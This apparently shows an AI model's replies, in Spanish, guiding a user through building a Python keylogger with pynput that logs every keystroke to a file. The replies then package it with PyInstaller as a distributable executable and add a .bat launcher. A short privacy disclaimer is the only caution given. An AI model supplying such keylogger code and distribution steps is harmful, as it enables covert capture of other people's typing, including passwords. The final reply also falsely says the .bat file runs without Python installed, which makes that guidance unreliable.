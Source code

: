  ¡Claro! Para capturar lo que escribes en el teclado y guardarlo en un archivo de texto, puedes usar Python junto con una biblioteca llamada `pynput`. Esta biblioteca te permite controlar y monitorear los dispositivos de entrada, incluyendo el teclado.

A continuación, te explico cómo hacerlo paso a paso:

### Paso 1: Instalar la biblioteca `pynput`
Primero, necesitas instalar la biblioteca `pynput`. Puedes hacer esto usando pip:

```sh
pip install pynput
```

### Paso 2: Escribir el script
Ahora, puedes escribir un script en Python para capturar lo que escribes en el teclado y guardarlo en un archivo de texto. Aquí tienes un ejemplo de cómo hacerlo:

```python
from pynput import keyboard
import os

# Función que se ejecuta cada vez que se presiona una tecla
def on_press(key):
    try:
        # Imprime la tecla presionada en la consola
        print(f'Tecla presionada: {key}')
        
        # Guarda la tecla presionada en un archivo de texto
        with open('log.txt', 'a') as file:
            file.write(str(key) + '\n')
    except Exception as e:
        print(f'Error al capturar la tecla: {e}')

# Función que se ejecuta cada vez que se suelta una tecla
def on_release(key):
    if key == keyboard.Key.esc:
        # Sale del bucle si se presiona la tecla Escape
        return False

# Configura los listeners para capturar las teclas
with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
```

### Paso 3: Explicar cómo funciona el script
1. **Importación de bibliotecas**: Importamos `keyboard` desde `pynput` y `os`.
2. **Función `on_press`**: Esta función se ejecuta cada vez que una tecla es presionada. Intenta imprimir la tecla en la consola y guarda el evento en un archivo de texto llamado `log.txt`. Si algo sale mal, imprime un mensaje de error.
3. **Función `on_release`**: Esta función se ejecuta cada vez que una tecla es liberada. Aquí puedes agregar lógica adicional si lo necesitas, pero en este caso solo estamos saliendo del bucle si se presiona la tecla Escape (`keyboard.Key.esc`).
4. **Configuración de los listeners**: Usamos `keyboard.Listener` para capturar las teclas tanto al ser presionadas como liberadas. El método `join()` hace que el script espere a que el listener termine (esto es necesario para mantener la ejecución del script en primer plano).

### Paso 4: Ejecutar el script
Guarda el script en un archivo, por ejemplo `keylogger.py`, y ejecútalo con Python:

```sh
python keylogger.py
```

Cuando ejecutes este script, empezará a capturar todas las teclas que presiones y guardarlas en el archivo `log.txt`. Si deseas detenerlo, simplemente presiona la tecla Escape (`Esc`).

### Nota importante
Es importante tener en cuenta que monitorear las pulsaciones de teclado puede violar la privacidad y ser ilegal en algunos casos. Asegúrate de usar esta técnica de manera ética y dentro de tus límites legales.


 Para convertir tu script Python en un archivo ejecutable sin necesidad de instalar Python en el sistema del usuario final, puedes usar herramientas como `PyInstaller` o `cx_Freeze`. Aquí te muestro cómo hacerlo con `PyInstaller`:

### Paso 1: Instalar PyInstaller
Primero, necesitas instalar `PyInstaller`. Puedes hacer esto usando pip:

```sh
pip install pyinstaller
```

### Paso 2: Convertir el script a un archivo ejecutable
Una vez que tengas `PyInstaller` instalado, puedes convertir tu script en un archivo ejecutable. Para ello, abre una terminal o línea de comandos y navega hasta la carpeta donde se encuentra tu script (`keylogger.py`). Luego ejecuta el siguiente comando:

```sh
pyinstaller --onefile keylogger.py
```

El parámetro `--onefile` indica que quieres crear un solo archivo ejecutable. Si no lo usas, PyInstaller generará una carpeta con varios archivos.

### Paso 3: Encontrar el archivo ejecutable
Después de ejecutar el comando, `PyInstaller` generará una carpeta llamada `dist` en la misma carpeta donde está tu script original. Dentro de esta carpeta, encontrarás un archivo llamado `keylogger.exe`, que es el archivo ejecutable que puedes distribuir sin necesidad de instalar Python.

### Paso 4: Ejecutar el archivo ejecutable
Para ejecutar el archivo `keylogger.exe`, simplemente haz doble clic sobre él o ejecútalo desde la línea de comandos. Este archivo no necesita Python para ser ejecutado, ya que todo lo necesario está incluido en él.

### Nota importante
Es importante tener en cuenta que convertir un script Python a un archivo ejecutable puede hacer que el código sea menos transparente y más difícil de depurar. Además, los archivos ejecutables pueden ser detectados como malware por algunas antivirus si no están bien configurados o si contienen código malicioso. Asegúrate de revisar el código fuente original para entender qué hace tu programa y distribuirlo con responsabilidad.

 Claro, aquí tienes un ejemplo de cómo podría verse tu archivo `.bat` para ejecutar el script `keylogger.py`:

```bat
@echo off
setlocal enabledelayedexpansion

:: Cambia la ruta a donde está ubicado tu script Python
SET SCRIPTPATH=C:\ruta\a\tu\script\keylogger.py

:: Ejecuta el script Python
python %SCRIPTPATH%
```

Asegúrate de reemplazar `C:\ruta\a\tu\script\keylogger.py` con la ruta real a tu archivo `keylogger.py`. Este archivo `.bat` usa variables para almacenar la ruta del script y luego ejecuta el script usando el comando `python`.

Si el script y el archivo `.bat` están en el mismo directorio, puedes simplificarlo a:

```bat
@echo off
setlocal enabledelayedexpansion

:: Ejecuta el script Python localmente
python keylogger.py
```

Este archivo `.bat` no necesita la ruta completa del script si ambos archivos están en el mismo directorio y solo se llama desde allí.

Guarda este archivo `.bat` y córralo haciendo doble clic sobre él o desde la línea de comandos, y debería ejecutar tu script Python sin necesidad de instalar Python adicionalmente en el sistema del usuario final.

